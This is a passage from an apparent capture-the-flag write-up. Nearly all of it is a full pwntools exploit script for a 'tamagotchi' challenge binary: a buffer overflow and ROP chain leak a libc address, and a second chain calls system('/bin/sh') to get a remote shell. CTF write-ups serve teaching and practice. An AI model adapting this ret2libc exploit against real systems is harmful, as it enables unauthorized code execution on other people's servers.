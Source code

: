 ## Full exploit script
```python
from pwn import *

context.arch = "amd64"
elf = ELF("./tamagotchi", checksec=False)
libc = ELF("./libc.so", checksec=False) # Libc used by tamagotchi

if args.LOCAL:
    p = elf.process()
else:
    host = args.HOST or "localhost"
    port = int(args.PORT or 8009)
    p = remote(host, port)

offset = 40

# First ROP-chain to leak puts address in libc
rop = ROP(elf)
rop.raw(b"A"*offset)
rop.puts(elf.got["puts"])
rop.call(elf.symbols["feed"])

# Send payload
p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(rop.chain())
p.recvuntil(b"\n\n")

# Parse the leaked address, and set libc base address
puts_leak = u64(p.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info(f"Puts address found: {hex(puts_leak)}")
libc.address = puts_leak - libc.symbols["puts"]

# Second ROP-chain to get shell on the server
ret_addr = rop.find_gadget(["ret"])[0]
rop = ROP(libc)
rop.raw(b"A"*offset)
rop.raw(p64(ret_addr))
rop.system(next(libc.search(b"/bin/sh")))

# Send payload
p.recvuntil(b">> ")
p.sendline(rop.chain())
p.interactive()
```
{: file="exploit.py" }


# Rev - Forrest
> Rev - 50pts
>
> My mama always said, "Binaries are not great for hiding things".
